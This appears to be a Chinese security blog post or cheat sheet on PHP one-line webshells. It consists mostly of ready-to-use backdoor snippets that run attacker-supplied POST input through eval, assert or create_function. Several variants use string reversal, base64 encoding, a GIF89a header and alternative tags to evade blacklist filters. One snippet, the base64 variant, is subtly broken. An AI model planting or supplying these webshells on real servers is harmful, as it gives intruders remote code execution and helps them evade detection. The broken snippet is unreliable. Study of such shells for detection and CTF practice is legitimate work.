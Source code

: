 ```yaml
---
title: PHP 一句话木马
date: 2024-07-13
tags:
  - PHP
  - SEC
draft: false
images: ['/static/images/blog/2025/8a4a4a/Pasted%20image%2020241013143113.png']
authors: ['default']
---
```


#### 实例

```php
<?php @eval($_POST['shell']);?>
```

- @ 防止报错
- eval() 把字符串当作php代码执行
- `$_POST['xyz']` 以post方式获取名为xyz的变量

使用：访问这句木马所在的php文件，以post方式传入 xyz = phpinfo()

- 网页会（执行`phpinfo()` 这个函数）返回网页php的版本信息

---

## 变形

### assert

```php
<?php
$a = "assert";
$a(@$_POST['shell']);
?>
```

- 区别在于 `assert` 函数在执行给定代码时，要求代码的结果为布尔类型，而 `eval` 函数则可以执行任意有效的 PHP 代码

### 字符变形

使用字符串拼接、大小写混淆、字符串逆序组合而成

```php
<?php
$a="TR"."Es"."sA";
$b=strtolower($a);
$c=strrev($b);
@$c($_POST['shell']);
?>

# phpinfo();
<?php
$a="of"."NiP"."Hp";
$b=strtolower($a);
$c=strrev($b);
@$c();
?>
```

- `strtolower()` 是 PHP 中的一个内置函数，用于将字符串转换为小写字母
- `strrev()` 字符串反转

注意，字符变形仅仅用于函数名，不能写成 `$a=")(of"."NiP"."Hp";` ，不能把括号一起放入。

用解析出来的变量替代函数名，本质上只是**字符的替换**，绕过黑名单检测，最后“触发”函数的执行需要依赖括号 `()` 。假如括号也写在字符变形之中，最终由变量替换产生一串 `phpinfo()` 这样的**字符串**，php 显然不会执行这个**字符串**，所以必须把括号放在外面。

### 自定义函数

```php
<?php
function fun($a){
    @eval($a);
}
@fun($_POST['shell']);
?>
```

### create_function

```php
<?php
$fun = create_function('',$_POST['shell']);
$fun();
?>
```

- 用法：`$addFunction = create_function('参数', '函数体');`

### base64_decode 函数

```php
<?php
$a=base64_decode("YXNzZXJ0");
@a($_POST['shell']);
?>
```

`YXNzZXJ0`是assert的base64编码，`base64_decode()`是base64解密函数

### 绕过`<?`

`GIF89a? <script language="php">eval($_REQUEST[123])</script> `

- `GIF89a`: 这是 GIF 图像文件的文件头标识符
- 剩余就是正常的html语言

### `<?` 绕过

```html
<script language="php">
  eval($_POST['zj'])
</script>
```

---

## 短标签

![](/static/images/blog/2025/8a4a4a/Pasted%20image%2020241013143113.png)

short_open_tag 开启以后，可以使用 PHP 的短标签：`<? ?>`

- 绕过黑名单有 `php` 的情况

---

#### 题目

-

